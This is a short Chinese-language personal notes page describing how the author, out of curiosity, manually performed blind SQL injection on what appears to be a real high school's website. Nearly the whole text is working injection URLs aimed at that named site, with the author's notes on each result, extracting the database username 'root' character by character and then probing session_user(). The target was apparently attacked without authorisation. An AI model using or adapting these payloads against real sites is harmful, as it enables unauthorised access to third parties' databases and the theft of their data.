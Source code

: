 ```yaml
---
layout: default
title: SQL注入过程
tags: 杂项

---
```


# SQL注入过程
创建时间: 2014/05/29 13:26:04  修改时间: 2016/12/06 00:03:29 作者:lijiao

----

## 摘要

好奇. 搜索到几个注入点后, 尝试手动注入了下. 

## 某高中注入点

http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user)=1

	mysql.user中只有一个用户

http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20length(user)%20%20=%204)%20%3E0

	用户名长度是4个字符,肯定是root..

http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20(ascii(substring(user,1,1)))=114)=1

	第一个字母是r

http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20(ascii(substring(user,2,1)))=111)=1

	第二个字母是o

http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20(ascii(substring(user,3,1)))=111)=1

	第三个字母是o

http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20(ascii(substring(user,4,1)))=116)=1

	第四个字母是t

http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20user=0x726f6f74)=1

	使用root的十六进制编码0x726f6f74验证，用户名为root

http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20session_user()%20like%200x25726F6F7425
